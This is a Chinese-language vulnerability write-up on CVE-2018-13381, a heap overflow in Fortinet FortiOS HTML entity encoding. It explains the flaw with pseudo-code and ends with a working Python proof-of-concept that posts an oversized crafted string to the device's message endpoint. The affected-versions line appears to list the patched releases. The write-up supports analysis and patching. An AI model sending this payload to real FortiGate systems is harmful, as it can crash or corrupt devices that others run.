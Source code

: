 # CVE-2018-13381 Fortinet FortiOS 缓冲区错误漏洞

### 一、漏洞简介

Fortinet FortiOS是美国飞塔（Fortinet）公司的一套专用于FortiGate网络安全平台上的安全操作系统。该系统为用户提供防火墙、防病毒、IPSec/SSLVPN、Web内容过滤和反垃圾邮件等多种安全功能。 Fortinet FortiOS 6.0.0版本至6.0.4版本、5.6.0版本至5.6.7版本和5.4及之前版本中存在缓冲区错误漏洞。该漏洞源于网络系统或产品在内存上执行操作时，未正确验证数据边界，导致向关联的其他内存位置上执行了错误的读写操作。攻击者可利用该漏洞导致缓冲区溢出或堆溢出等。

### 二、漏洞影响

Fortinet Fortios 6.0.5 Fortinet Fortios 5.6.8

### 三、复现过程

在编码HTML实体代码时，有两个阶段。服务器首先计算编码字符串所需的缓冲区长度，然后将其编码到缓冲区。在计算阶段，例如，<字符编码为 <，占用5个字节。如果遇到任何以&#开头的字符，例如<，服务器会认为这个token已经被编码了，并直接计算其长度。像这样：


```
c = token[idx];
if (c == '(' || c == ')' || c == '#' || c == '<' || c == '>')
    cnt += 5;
else if(c == '&' && html[idx+1] == '#')
    cnt += len(strchr(html[idx], ';')-idx);
```

然而，长度计算和编码过程之间将存在不一致，编码部分无法处理这种情况。


```
switch (c)
{
    case '<':
        memcpy(buf[counter], "&#60;", 5);
        counter += 4;
        break;
    case '>':
    // ...
    default:
        buf[counter] = c;
        break;
    counter++;
}
```

如果我们输入恶意字符串如&#<<<;，<仍将编码成<，所以编码结果应该是&#<<<;！这比预期的6个字节长得多，从而导致堆溢出。

**PoC：**


```
import requests

data = {
    'title': 'x', 
    'msg': '&#' + '<'*(0x20000) + ';<', 
}
r = requests.post('https://url:4433/message', data=data)
```